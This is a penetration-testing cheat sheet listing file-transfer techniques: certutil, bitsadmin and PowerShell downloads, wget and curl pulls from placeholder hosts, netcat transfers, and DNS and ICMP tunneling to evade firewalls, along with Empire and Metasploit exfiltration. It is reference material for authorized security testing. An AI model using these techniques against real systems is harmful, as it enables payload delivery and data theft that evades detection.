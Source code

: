 ## **Windows Built-in Tools**

1. **PowerShell**
    
    - **Command**: `Invoke-WebRequest` or `Invoke-Expression`
    - Example:
        
        ```powershell
        Invoke-WebRequest -Uri http://<IP>/<file> -OutFile <file>
        ```
        
    - Usage: Download files directly from HTTP/HTTPS servers.
    
2. **certutil**
    
    - **Command**: `certutil -urlcache -split -f http://<IP>/<file> <file>`
    - Usage: A built-in utility that can download files over HTTP/HTTPS.
    
3. **bitsadmin**
    
    - **Command**: `bitsadmin /transfer myJob /download /priority high http://<IP>/<file> C:\path\to\file`
    - Usage: Used to download files stealthily over HTTP/HTTPS.

---

## **Linux Built-in Tools**

4. **scp (Secure Copy Protocol)**
    
    - **Command**: `scp user@<IP>:<remote-file> <local-path>`
    - Usage: Transfer files securely over SSH.
    
5. **wget**
    
    - **Command**: `wget http://<IP>/<file>`
    - Usage: Download files directly from HTTP/HTTPS servers.
    
6. **curl**
    
    - **Command**: `curl -O http://<IP>/<file>`
    - Usage: Flexible tool to download files.
    
7. **nc (Netcat)**
    
    - **Server**: `nc -lvp <port> < <file>`
    - **Client**: `nc <IP> <port> > <file>`
    - Usage: Simple way to transfer files over raw TCP.
    
8. **rsync**
    
    - **Command**: `rsync -avz user@<IP>:<file> <local-path>`
    - Usage: Sync files efficiently between systems.

---

## **Cross-Platform Tools**

9. **FTP**
    
    - **Command**: `ftp <IP>`
    - Usage: Upload/download files using FTP protocol.
    
10. **HTTP Server**
    
    - Python:
        
        ```bash
        python3 -m http.server <port>
        ```
        
    - Transfer using browser or tools like `wget`/`curl`.
    
11. **SMB (Samba)**
    
    - Using `smbclient`:
        
        ```bash
        smbclient //IP/share -U user put <file>
        ```
        
    - Usage: Transfer files via SMB.
    
12. **HTTP File Servers**
    
    - **SimpleHTTPServer (Python 2):**
        
        ```bash
        python -m SimpleHTTPServer <port>
        ```
        
    - **PHP:**
        
        ```bash
        php -S 0.0.0.0:<port>
        ```
    
13. **TFTP (Trivial File Transfer Protocol)**
    
    - **Server**: `atftpd --daemon /path/to/files`
    - **Client**: `tftp <IP> -c get <file>`
    - Usage: Lightweight file transfer for limited environments.
    
14. **Impacket's smbserver.py**
    
    - **Command**:
    
        ```bash
        smbserver.py share /path/to/files
        ```
        
    - Usage: Share files over SMB without installing Samba.
    
15. **HTTPUpload**
    
    - **Command**: Use tools like `curl` or `nc` to upload files directly to a listening HTTP/HTTPS server.

---

## **Stealth Tools**

16. **DNS Tunneling**
    
    - Tools: `dnscat2`, `iodine`
    - Usage: Transfer files using DNS queries to evade firewalls.
    
17. **ICMP Tunneling**
    
    - Tools: `ptunnel`, `icmptx`
    - Usage: Send data using ICMP echo requests (ping).
    
18. **Powershell Transfer with Base64 Encoding**
    
    - Encode file in Base64:
        
        ```powershell
        $content = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("<file>"))
        ```
        
    - Decode and save on target.
    
19. **WebDAV (via Kali)**
    
    - **Command**:
    
        ```bash
        davtest -url http://<IP>
        ```
        
    - Usage: Upload files via WebDAV to a writable directory.

---

## **Third-Party Tools**

20. **Exfiltration Tools**
    
    - **Empire**: Offers modules to exfiltrate files during engagements.
    - **Metasploit Upload/Download**: Use sessions to upload/download files.
    
21. **Magic-Wormhole**
    
    - **Command**: `wormhole send <file>`
    - Usage: Send files securely via a short code.
    
22. **Croc**
    
    - **Command**: `croc send <file>`
    - Usage: Secure and easy file sharing.
    
23. **Rclone**
    
    - **Command**: Sync with cloud providers like Google Drive or S3.

---

## **Cloud-Based Transfers**

24. **Dropbox/GDrive Upload Scripts**
    
    - Use APIs or CLI tools to upload files to cloud storage.
    
25. **Pastebin/Gist**
    
    - Upload file contents and share via link.

---

These tools and methods are staples in penetration testing engagements, allowing flexibility depending on the environment and constraints.
